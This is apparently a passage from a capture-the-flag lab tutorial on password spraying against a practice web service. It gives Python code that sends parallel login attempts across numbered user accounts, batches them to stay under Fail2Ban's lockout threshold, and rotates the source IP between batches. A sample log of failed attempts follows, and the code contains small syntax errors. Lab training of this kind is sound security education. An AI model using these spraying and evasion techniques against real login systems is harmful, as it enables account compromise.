 ## Step 3

### Parallelize your requests

You can speed up your *password spraying program* by parallelizing your requests using [concurrent.futures](https://docs.python.org/3/library/concurrent.futures.html).

As we have can only have as many simultaneous threads as Fail2Ban allows failed login attempts from the same IP we have to limit the tasks running.

```python
from concurrent.futures import ThreadPoolExecutor, as_completed

with ThreadPoolExecutor() as executor:
    current_user = 140000
    end_user = 140500
    
    while current_user <= end_user:
        tasks = list()
        
        # limit running threads (batching), change range according to Fail2Ban policy
        for offset in range(0, 10)
        	current_user += 1
        	tasks.append(
            	executor.submit(
                	try_login, (f'user_{current_user}', 'password')
                )
            )
            current_user += 1
        
        renew_IP()
        
        # wait for the tasks to complete
        for task in as_completed(tasks):
            print(task.result())
        
```

## Step 4

### Password Spraying

Now as you have all your needed code wrap the parts together and try to capture the flag. Make sure to update the **password** according to https://pwspray.vm.vuln.land/.

When you add some `print` statements to your code it could look somehow like this.

LOG:

```bash
-- Trying users: 140000 to 140009
New IP received: 185.220.101.160

(('user_140000', 'password'), 401)
(('user_140001', 'password'), 401)
(('user_140002', 'password'), 401)
(('user_140003', 'password'), 401)
(('user_140004', 'password'), 401)
(('user_140005', 'password'), 401)
(('user_140006', 'password'), 401)
(('user_140007', 'password'), 401)
(('user_140008', 'password'), 401)
(('user_140009', 'password'), 401)
...
(('user_140500', 'password'), 401)
```
